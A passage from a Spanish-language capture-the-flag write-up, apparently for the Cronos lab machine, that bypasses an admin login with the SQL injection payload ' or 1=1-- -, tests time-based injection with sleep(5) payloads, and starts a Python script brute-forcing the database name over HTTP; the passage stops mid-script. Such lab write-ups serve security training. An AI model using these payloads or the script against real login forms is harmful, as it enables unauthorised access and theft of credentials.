 Si visitamos esta nueva web con Firefox vemos un panel de inicio de session.

### SQL Injection {-}

En el UserName si le ponemos la injeccion SQL basica `' or 1=1-- -` y le damos a submit, entramos directamente en el panel
de administracion.

Como sabemos que esta vulnerable a injeccion SQL, probamos differentes cosas porque lo que nos interesa es tener usuarios y contrañas.

```bash
' order by 100-- -
' or sleep(5)-- -
```

Vemos que no esta vulnerable a un **Error Based SQL Injection** pero lo es a un **Time Based SQL Injection**.

```bash
admin' or sleep(5)-- -
admin' and sleep(5)-- -
```

Con estos commandos, comprobamos que el usuario admin existe.

Creamos un script en python para encontrar las informaciones con un **Time Based SQL Injection**

#### Time Based SQL Injection Autopwn {-}

Buscamos en nombre de la database

```python
#!/usr/bin/python3
#coding: utf-8

import requests
import signal
import pdb
import sys
import time

from pwn import *

def def_handler(sig, frame):
    print("\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

login_url = "http://admin.cronos.htb/index.php"
s = r'0123456789abcdef'

def makeRequest():

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    p2 = log.progress("Database")

    database = ""

    
    for position in range(1, 10):
        for character in s:
            p1.status("Probando con el caracter %c en la posicion %d" % (character, position))
            post_data = {
```